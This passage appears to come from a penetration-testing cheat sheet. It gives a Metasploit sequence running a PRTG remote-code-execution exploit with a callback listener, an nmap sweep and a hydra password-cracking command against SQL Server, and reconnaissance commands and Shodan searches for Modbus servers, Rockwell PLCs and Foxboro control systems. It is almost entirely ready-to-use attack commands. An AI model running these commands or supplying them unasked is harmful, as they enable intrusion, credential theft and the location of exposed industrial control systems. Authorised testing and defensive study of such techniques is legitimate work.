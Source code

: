 Exploit the PRTG server:

```
msfconsole -q
use exploit/windows/http/prtg_authenticated_rce
set RHOST 192.168.1.10
set RPORT 80
set LHOST 192.168.1.20
set LPORT 4444
set TARGETURI /
run
```

### SQL

Enumerate

```
nmap -sS -p 1433 -oA outputfile 192.168.1.1/24
```

Crack

```
hydra -L users.txt -P passwords.txt -vV <target_ip> sql-server
```


### industrial control systems(ics)

Reconnaissance

```
nmap -p 102,502 -sV <target_ip>
```

This shodan dork searches for Modbus servers, which are commonly used in ICS systems.

```
"port:502 modbus"
```

and


```
"port:44818"
```

This dork searches for PLCs (Programmable Logic Controllers) that use the proprietary Rockwell Automation protocol.


```
"port:1911
```

This dork searches for the Foxboro I/A Series Distributed Control Systems (DCS), which are used in various industries such as oil and gas, chemical and power generation.


```
"port:102
```
